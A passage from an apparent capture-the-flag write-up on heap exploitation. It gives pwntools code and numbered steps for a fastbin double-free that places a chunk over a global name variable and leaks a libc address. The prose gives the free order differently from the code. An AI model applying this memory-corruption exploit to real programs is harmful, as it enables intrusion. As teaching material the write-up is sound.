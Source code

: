 ```python
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])
```

The way I got the libc leak was to do the following steps:

1. At the beginning of the program, make our name look like a fake chunk of 0x61 size.

1. Allocate three chunks of size 0x58.

2. Double free one of them (`free(0)` -> `free(1)` -> `free(1)`).

3. Reallocate a chunk of size 0x58, then set its first 8 bytes (the fd pointer) to our name variable.

4. Three more allocations later, and we get a chunk right on top of our name variable

5. Now we reintroduce ourselves again and make the chunk header a size of 0x91 and create a bunch of fake chunks

6. Free the chunk, and it places the address of `main_arena + 0x58` into the fd and bk

7. Leak it by reintroducing ourselves and typing in enough characters

```python
'''
For step 1, we want a libc leak. PIE is disabled, and the only leak we have is when we
"reintroduce" ourselves, and the program tells us what our name is.

Knowing this, the easiest way to get a libc leak is to first get a fake chunk on top of
the name variable by doing a fastbin attack. Then, we simply change the name to make it
appear to be a chunk of size 0x91, then free it. This causes the addr of main_arena+0x58
to be placed in the fd and bk fields of our fake chunk. The fd and bk fields are
essentially name[2] and name[3] respectively, if each index is considered 8 bytes long
'''

# Initialize our name to look like a fake chunk header with size 0x61
initialize(p64(0) + p64(0x61) + p64(0))

# Address of name global variable (PIE is disabled)
fake_chunk = 0x602040

# Quick double free fast bin attack to get a chunk on top of name
# Allocate three chunks for setup (third chunk might not be needed)
add(0x58, 'A'*0x58) # 0
add(0x58, 'B'*0x58) # 1
add(0x58, 'C'*0x58) # 2

# Double free chunk 0
free(0)
free(1)
free(0)

# Get chunk 0 back, and overwrite it's FD with fake chunk
add(0x58, p64(fake_chunk) + 'A'*0x50) # 3

# Three more allocations, chunk 6 will be at our name variable
add(0x58, 'B'*0x58) # 4
add(0x58, 'A'*0x58) # 5
add(0x58, 'C'*0x58) # 6

# Next, we change name so that it looks like a fake chunk with size 0x91
# We also construct a bunch of fake chunks.
```